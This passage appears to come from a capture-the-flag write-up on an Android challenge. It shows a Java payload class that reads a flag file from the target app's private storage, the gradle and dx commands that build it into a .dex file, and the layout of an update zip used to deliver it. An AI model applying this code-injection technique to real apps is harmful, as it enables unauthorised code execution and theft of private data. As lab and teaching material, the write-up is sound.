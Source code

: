 Inside the module we create a "TheThing" class that contains a doit() method which executes our code:

```java
private static void getFlag(String s){
    File f = new File(s);
    if (f.exists()){
        System.out.println("[+] - Flag exits in "+s);
        try {
            BufferedReader reader = new BufferedReader(new FileReader(f.getAbsolutePath()));
            System.out.println("[+] - Flag: "+reader.readLine());
        } catch (FileNotFoundException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }
    } else {
        System.out.println("[+] - Flag not here "+s);
    }
}

public static void doit(){
    System.out.println("[+] - Also doing the thing");
    // Get the flag
    getFlag("/data/user/0/nn8ed.updateme/files/flag.txt");
}
```

Then we should compile it to .jar and after that to convert it to .dex

```bash
➜ ../gradlew assemble

BUILD SUCCESSFUL in 0s
2 actionable tasks: 2 executed

➜ /<path to android sdk>/dx --dex --output build/libs/nn8ed.anotherthing.dex build/libs/lib.jar
➜ ls build/libs/
lib.jar                nn8ed.anotherthing.dex
```

Then we should create the .zip containing the payload. Each update has a pretty simple structure:

```bash
➜ unzip -l update_1.zip
Archive:  update_1.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
    38741  09-16-2018 17:32   a.jpg
        0  09-16-2018 22:45   __MACOSX/
      494  09-16-2018 17:32   __MACOSX/._a.jpg
---------                     -------
    39235                     3 files
```
